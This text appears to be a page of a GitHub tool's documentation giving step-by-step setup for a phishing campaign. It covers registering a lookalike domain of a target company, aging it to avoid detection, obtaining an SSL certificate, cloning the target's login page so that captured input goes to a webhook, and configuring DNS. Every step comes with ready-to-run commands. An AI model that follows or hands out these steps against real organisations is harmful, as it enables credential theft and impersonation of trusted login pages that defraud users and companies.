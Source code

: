 ### Step 1: Domain Acquisition
```bash
# Register a domain similar to target
# Examples:
# - acme-corp.com (if target is acmecorp.com)
# - acmecorp-portal.com
# - acmecorp.co (different TLD)

# Check domain reputation
python src/main.py domain check acme-corp.com
```

**Tips:**
- Age domain at least 30 days before use
- Use privacy protection
- Choose domains that look legitimate

### Step 2: SSL Certificate
```bash
# Obtain certificate
python src/main.py ssl obtain acme-corp.com \
  --email admin@example.com \
  --method standalone

# Verify installation
curl -vI https://acme-corp.com
```

### Step 3: Landing Page Setup
```bash
# Clone target login page
python src/main.py clone page https://login.acmecorp.com \
  --output ./landing_pages/acme \
  --webhook https://your-webhook-url.com

# Test the cloned page
cd landing_pages/acme_*
python -m http.server 8000

# Visit http://localhost:8000 to verify
```

### Step 4: DNS Configuration
```bash
# Add required DNS records (see SETUP_GUIDE.md)
# Wait 24-48 hours for propagation
# Verify configuration
python src/main.py domain check acme-corp.com
```

---
